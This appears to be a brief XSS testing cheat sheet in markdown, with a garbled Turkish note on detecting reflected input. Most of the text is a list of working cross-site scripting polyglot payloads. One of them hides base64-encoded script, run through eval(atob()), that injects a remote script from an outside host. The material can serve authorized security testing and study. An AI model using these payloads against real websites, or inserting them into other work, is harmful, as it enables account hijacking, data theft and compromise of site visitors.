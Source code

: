 # XSS

### Scope:
```
GET|POST parameters
Path
```

### Detect reflections

gibi yanıtlarda yansımaları algılamak için bazı anahtar kelimeleri geçmiş PayloadHereve istek gönder. anahtar PayloadHere kelime geçmiş xss yüklerinden yansıtılırsa yanıt olarak anahtar kelimede arama .

### XSS Polyglots:
```
%3C!%27/*!%22/*!\%27/*\%22/* — !%3E%3C/Title/%3C/script/%3E%3CInput%20Type=Text%20Style=position:fixed;top:0;left:0;font-size:999px%20*/;%20Onmouseenter=confirm`1`%20//%3E#
```
```
<!'/*!”/*!\'/*\"/* — !></Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`1` //>#
```
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/ — !>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
```
">><marquee><img src=x onerror=confirm(1)></marquee>” ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’ →” >
"></script><script>alert(1)</script>”><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'">"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnhzcy54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
```
```
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))// →</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

